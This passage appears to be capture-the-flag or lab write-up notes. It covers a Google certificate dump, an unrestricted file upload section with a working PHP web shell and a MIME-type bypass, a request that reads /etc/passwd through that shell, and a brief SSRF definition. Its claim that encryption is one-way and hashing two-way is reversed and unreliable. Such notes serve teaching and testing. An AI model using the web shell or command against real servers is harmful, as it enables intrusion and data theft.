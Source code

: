 ```bash
Altnames: DNS:*.google.com, DNS:*.android.com, DNS:*.appengine.google.com, DNS:*.cloud.google.com, DNS:*.g.co, DNS:*.gcp.gvt2.com, DNS:*.ggpht.cn, DNS:*.google-analytics.com, DNS:*.google.ca, DNS:*.google.cl, DNS:*.google.co.in, DNS:*.google.co.jp, DNS:*.google.co.uk, DNS:*.google.com.ar, DNS:*.google.com.au, DNS:*.google.com.br, DNS:*.google.com.co, DNS:*.google.com.mx, DNS:*.google.com.tr, DNS:*.google.com.vn, DNS:*.google.de, DNS:*.google.es, DNS:*.google.fr, DNS:*.google.hu, DNS:*.google.it, DNS:*.google.nl, DNS:*.google.pl, DNS:*.google.pt, DNS:*.googleadapis.com, DNS:*.googleapis.cn, DNS:*.googlecommerce.com, DNS:*.googlevideo.com, DNS:*.gstatic.cn, DNS:*.gstatic.com, DNS:*.gstaticcnapps.cn, DNS:*.gvt1.com, DNS:*.gvt2.com, DNS:*.metric.gstatic.com, DNS:*.urchin.com, DNS:*.url.google.com, DNS:*.youtube-nocookie.com, DNS:*.youtube.com, DNS:*.youtubeeducation.com, DNS:*.youtubekids.com, DNS:*.yt.be, DNS:*.ytimg.com, DNS:android.clients.google.com, DNS:android.com, DNS:developer.android.google.cn, DNS:developers.android.google.cn, DNS:g.co, DNS:ggpht.cn, DNS:goo.gl, DNS:google-analytics.com, DNS:google.com, DNS:googlecommerce.com, DNS:source.android.google.cn, DNS:urchin.com, DNS:www.goo.gl, DNS:youtu.be, DNS:youtube.com, DNS:youtubeeducation.com, DNS:youtubekids.com, DNS:yt.be
Issuer:   Google Internet Authority G3

Not valid before: Oct 30 13:15:05 2018 GMT
Not valid after:  Jan 22 13:15:00 2019 GMT
```

> Encryption is a one-way function, hashing is a two-way function. They are not the same.

### Web 303

#### Unrestricted file upload

The upload functionality exposes a vulnerability which an attacker can exploit, by uploading a malicious script, an attacker can gain access/see resources etc. One potential attack would be uploading a web shell php script. You can find some pretty neat ones [here](https://github.com/JohnTroony/php-webshells). An example would be:

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

In the example given, we were allowed to upload a photo. We trapped the POST request with `burpsuite`, edited the script's content type (mime type) to `image/png` then forwarded it. Accessing the post we made and copying the image location, we could run commands like so `http://10.0.10.55/empbulletin/storage/bed89a4de13a3c70ba6ae128912b6679.php?cmd=cat+/etc/passwd`. This gave us the password file.

#### Server Side Request Forgery SSRF

In computer security, server-side request forgery is a type of exploit where an attacker abuses the functionality of a server causing it to access or manipulate information in the realm of that server that would otherwise not be directly accessible to the attacker. 
